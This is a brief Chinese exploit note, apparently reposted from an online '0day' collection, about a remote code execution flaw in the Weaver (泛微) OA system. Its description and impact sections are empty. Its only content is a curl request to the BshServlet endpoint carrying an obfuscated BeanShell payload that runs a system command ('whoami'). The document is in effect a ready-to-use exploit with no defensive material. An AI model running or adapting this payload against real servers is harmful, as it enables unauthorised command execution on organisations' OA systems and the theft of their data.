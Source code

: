 # 泛微 OA 管理系统 RCE 漏洞

> 原文：[http://book.iwonder.run/0day/泛微 oa/3.html](http://book.iwonder.run/0day/泛微 oa/3.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
curl http://0-sec.org:8000/weaver/bsh.servlet.BshServlet -d 'bsh.script=eval%00("ex"%2b"ec(\"whoami\")");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw' 
```

